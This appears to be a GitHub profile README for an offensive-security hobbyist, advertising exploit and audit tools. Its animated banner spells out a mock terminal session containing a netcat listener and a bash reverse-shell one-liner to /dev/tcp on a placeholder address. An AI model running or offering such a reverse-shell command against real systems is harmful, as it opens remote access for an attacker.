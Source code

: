<h3 align="left">✨ Hello, here you will find tools to exploit vulnerabilities and audits ✨</h3>

  <img height="320" src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=15&pause=1000&multiline=true&repeat=false&width=370&height=180&lines=nc+-lvnp+4444;listening+on+%5Bany%5D++4444+...;connect+to+%5BArgenix%5D+profile;bash+-i++%3E%26++%2Fdev%2Ftcp%2F10.10.10.10%2F4444+0%3E%261;Argenix%40profile%3A~%24+.%2Fexploit.py;.........................................;..................01001001...............;%24whoami;Argenix"  />
</div>
